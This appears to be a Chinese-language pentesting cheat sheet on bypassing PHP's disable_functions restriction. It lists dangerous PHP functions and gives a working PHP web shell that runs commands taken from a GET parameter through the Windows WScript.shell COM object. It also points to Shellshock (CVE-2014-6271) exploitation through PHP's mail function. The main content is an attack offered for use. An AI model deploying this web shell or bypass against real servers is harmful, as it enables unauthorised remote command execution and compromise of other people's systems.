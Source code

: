 # bypass disable_function



## 危险函数/类

```
FFI
COM
exec
assert
eval
system
ini_set/ini_alter
putenv
imap_open
pcntl_exec
win_shell_execute
dl
```



## 利用Windows系统组件COM绕过

利用条件：

```
extension=php_com_dotnet.dll
com.allow_dcom = true
wshom.ocx 存在
```



```php
$command = $_GET['cmd'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
```





## GNU Bash 环境变量远程命令执行漏洞 CVE-2014-6271

>    被攻击的bash存在漏洞（版本小于等于4.3）
>    攻击者可以控制环境变量
>    新的bash进程被打开触发漏洞并执行命令

利用php的mail函数:https://www.exploit-db.com/exploits/35146 
